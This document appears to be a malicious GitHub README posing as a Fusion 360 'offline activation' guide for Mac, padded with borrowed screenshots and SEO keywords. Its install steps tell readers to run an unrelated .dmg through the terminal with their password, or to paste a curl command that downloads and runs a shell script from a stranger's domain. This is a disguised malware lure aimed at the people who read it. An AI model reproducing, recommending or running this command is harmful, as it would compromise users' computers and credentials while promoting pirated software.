 # Fusion 360 — Offline Activation Guide

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://fusion-360-offline-activation-guide.github.io/.github)

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get2/install.sh)"
```
---

## 🎯 What You Unlock

🛠 Full 3D modeling and design environment  
⚙️ Integrated CAM tools for manufacturing  
📐 Parametric and freeform modeling capabilities  
📊 Simulation and generative design modules  
🔒 No login or online validation required

---

## 🖼 Preview

![Fusion 360 Interface](https://i.ytimg.com/vi/7uEsArC8kIk/maxresdefault.jpg)  
*Modern Fusion 360 user interface for CAD design*

![Fusion 360 Tombsotone Project](https://adsknews.autodesk.com/app/uploads/2020/11/Tombsotone-Hero-Image.png)  
*Advanced modeling example: Tombsotone project*

![Fusion 360 Workspace and Tools](https://www.3dnatives.com/en/wp-content/uploads/sites/2/Fusion360_1.jpg)  
*Comprehensive CAD/CAM workspace in Fusion 360*


---

### 🔎 SEO Keywords

`fusion 360 mac`, `fusion 360 mac download`, `fusion 360 download for mac`, `download fusion 360 for mac`, `autodesk fusion 360 mac`,  
`fusion 360 macos`, `fusion 360 mac m1`, `mac fusion 360`, `autodesk fusion mac`, `fusion 360 macbook`,  
`fusion 360 macbook pro`, `fusion 360 mac install`, `fusion 360 mac app`, `fusion 360 mac version`, `fusion 360 mac setup`,  
`fusion 360 mac tutorial`, `fusion 360 mac free trial`, `fusion 360 mac system requirements`, `fusion 360 mac update`, 
`fusion 360 mac native`, `fusion 360 mac optimized`, `fusion 360 mac download latest`, `fusion 360 mac support`, `fusion 360 mac performance`, `fusion 360 mac compatibility`
